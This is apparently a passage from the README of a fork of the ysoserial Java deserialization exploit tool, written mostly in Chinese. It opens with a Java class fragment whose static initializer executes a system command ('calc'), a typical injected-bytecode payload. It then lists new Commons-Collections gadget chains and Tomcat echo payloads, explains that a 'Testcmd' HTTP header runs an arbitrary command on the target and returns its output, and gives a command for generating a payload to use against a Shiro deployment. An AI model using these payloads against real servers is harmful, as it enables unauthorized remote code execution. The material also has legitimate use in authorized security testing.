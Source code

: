 ```java
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM dom, SerializationHandler[] serializationHandlers) throws TransletException {

    }

}

```

## Updates By zema1:

打包好的 jar 可以直接下载使用: [https://github.com/zema1/ysoserial/releases](https://github.com/zema1/ysoserial/releases)

+ 添加 `CommonsCollectionsK1` (commons-Collections <= 3.2.1 && allowTemplates)
+ 添加 `CommonsCollectionsK2` (commons-Collections == 4.0 && allowTemplates)
+ 添加 `CommonsCollectionsK3` (commons-Collections <= 3.2.1)
+ 添加 `CommonsCollectionsK4` (commons-Collections == 4.0)
+ 添加 `Jdk8u20` （Jdk7u21 的版本延伸 Gadget)
+ 添加 全版本 Tomcat 回显 payload, 自带下列 Gadget，如有需要可以自己组合
    + `CommonsCollectionsK1TomcatEcho`
    + `CommonsCollectionsK2TomcatEcho`
+ 缩减了 Templates 字节码的大小，可以避免超过 tomcat header 大小等。

CommonsCollectionsKx 这 4 条利用链在效果上可以完全代替且超越之前的 CommonsCollection7 条链，
他们以最小的依赖兼顾了 CC 中的各种利用链。其中 K1,K2 是一条链的两个版本，K3,K4 是一条链的两个版本。

Tomcat 回显使用时随便输入一个命令作为占位符即可，真正的命令在 http 请求 header 中指定, 规则如下:
+ Testecho: 123 将在响应 header 回显 Testecho: 123， 可以用于可靠漏洞检测
+ Testcmd: id 将执行 id 命令，并将回显写在响应 body，可以方便的用于命令执行
```
java -jar target/ysoserial-0.0.8-SNAPSHOT-all.jar CommonsCollectionsK1TomcatEcho a > out.bin
```

例如：使用 CommonsCollectionsK1TomcatEcho 打 shiro 1.2.24 的默认环境

![image](https://user-images.githubusercontent.com/20637881/88356652-2275ec80-cd9b-11ea-9746-8888fceb93b4.png)
